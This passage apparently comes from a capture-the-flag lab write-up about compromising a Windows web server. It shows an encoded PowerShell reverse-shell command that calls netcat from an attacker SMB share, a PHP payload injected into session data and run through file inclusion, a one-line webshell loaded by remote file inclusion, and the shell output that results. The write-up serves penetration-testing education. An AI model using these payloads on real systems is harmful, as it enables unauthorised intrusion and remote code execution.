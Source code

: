 I'll make the command, making sure to convert to 16-bit unicode
characters with `iconv`:



    root@kali# echo 'cmd /c "\\10.10.14.6\share\nc64.exe -e cmd 10.10.14.6 443"' | iconv -f ascii -t utf-16le | base64 -w0
    YwBtAGQAIAAvAGMAIAAiAFwAXAAxADAALgAxADAALgAxADQALgA2AFwAcwBoAGEAcgBlAFwAbgBjADYANAAuAGUAeABlACAALQBlACAAYwBtAGQAIAAxADAALgAxADAALgAxADQALgA2ACAANAA0ADMAIgAKAA==



Now, I'll register as:



    <?php echo `powershell /enc YwBtAGQAIAAvAGMAIAAiAFwAXAAxADAALgAxADAALgAxADQALgA2AFwAcwBoAGEAcgBlAFwAbgBjADYANAAuAGUAeABlACAALQBlACAAYwBtAGQAIAAxADAALgAxADAALgAxADQALgA2ACAANAA0ADMAIgAKAA==` ?>



Once I log in, I can include the session data:



    root@kali# curl -s -G 'http://10.10.10.151/blog/' --data-urlencode 'lang=\windows\temp\sess_8l44h398eccsi698nj5he5k2cr'



This just hangs, but I've got a shell on my listener:



    root@kali# rlwrap nc -lnvp 443
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.151.
    Ncat: Connection from 10.10.10.151:49706.
    Microsoft Windows [Version 10.0.17763.678]
    (c) 2018 Microsoft Corporation. All rights reserved.

    C:\inetpub\wwwroot\blog>whoami
    whoami
    nt authority\iusr



### path 2 - RFI

With the RFI identified earlier, I can include a simple PHP webshell,
`cmd.php`:



    <?php system($_REQUEST['cmd']); ?>



Now I can request that shell, and include a `cmd` parameter:



    root@kali# curl -s -G 'http://10.10.10.151/blog/' --data-urlencode 'lang=\\10.10.14.6\share\cmd.php' --data-urlencode 'cmd=whoami' | sed -n '/<\.md>/,/<\/body>/p'                       
    <.md>
    nt authority\iusr
    </body>
    <.md>
